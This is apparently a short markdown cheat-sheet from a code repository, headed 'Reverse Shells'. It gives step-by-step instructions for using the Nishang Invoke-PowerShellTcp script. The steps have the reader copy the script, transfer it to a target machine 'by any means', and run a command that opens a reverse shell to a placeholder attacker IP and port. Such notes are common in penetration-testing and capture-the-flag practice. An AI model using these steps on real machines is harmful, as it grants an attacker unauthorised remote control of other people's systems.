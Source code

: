 # Reverse Shells

* [Nishang Invoke PowerShell TCP](#nishang-invoke-powershell-tcp)
* 


## Nishang Invoke PowerShell TCP

1. Paste this nishang file into a blank text document: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
2. Name it "Invoke-PowerShellTcp.ps1" (remove quotes)
3. Transfer it to target machine by any means.
4. Have the target machine trigger this command:
```
Invoke-PowerShellTcp -Reverse -IPAddress [ATTACK-IP] -Port [PORT]
```
